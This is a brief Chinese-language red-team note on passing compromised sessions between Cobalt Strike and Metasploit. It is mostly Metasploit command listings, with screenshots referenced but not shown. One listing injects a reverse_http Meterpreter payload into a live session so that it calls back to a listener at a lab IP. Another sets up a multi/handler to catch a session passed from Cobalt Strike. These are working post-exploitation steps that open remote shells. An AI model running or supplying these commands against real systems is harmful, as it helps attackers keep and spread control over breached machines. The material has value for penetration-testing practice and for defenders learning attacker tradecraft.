 # Cobaltstrike与MSF会话派生

## msf派生CS

CS新建监听

![Untitled](Cobaltstrike%E4%B8%8EMSF%E4%BC%9A%E8%AF%9D%E6%B4%BE%E7%94%9F%209fa09f90eddc40228d9ac6388d894d5c/Untitled.png)

msf执行

```c
use exploit/windows/local/payload_inject
set payload windows/meterpreter/reverse_http
set DisablePayloadHandler true
set lhost 192.168.5.128
set lport 8888
set session 1
run
```

## CS派生msf

msf新建监听

```c
msf6 > use exploit/multi/handler 
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http 
msf6 exploit(multi/handler) > set lhost 192.168.5.128
msf6 exploit(multi/handler) > set lport 1234
msf6 exploit(multi/handler) > run -j
```

cs新建一个监听器，地址为msf地址，端口为msf的监听端口

![Untitled](Cobaltstrike%E4%B8%8EMSF%E4%BC%9A%E8%AF%9D%E6%B4%BE%E7%94%9F%209fa09f90eddc40228d9ac6388d894d5c/Untitled%201.png)

在 cs的现有会话上增加会话，监听器选择刚才创建的msf监听端口

![Untitled](Cobaltstrike%E4%B8%8EMSF%E4%BC%9A%E8%AF%9D%E6%B4%BE%E7%94%9F%209fa09f90eddc40228d9ac6388d894d5c/Untitled%202.png)
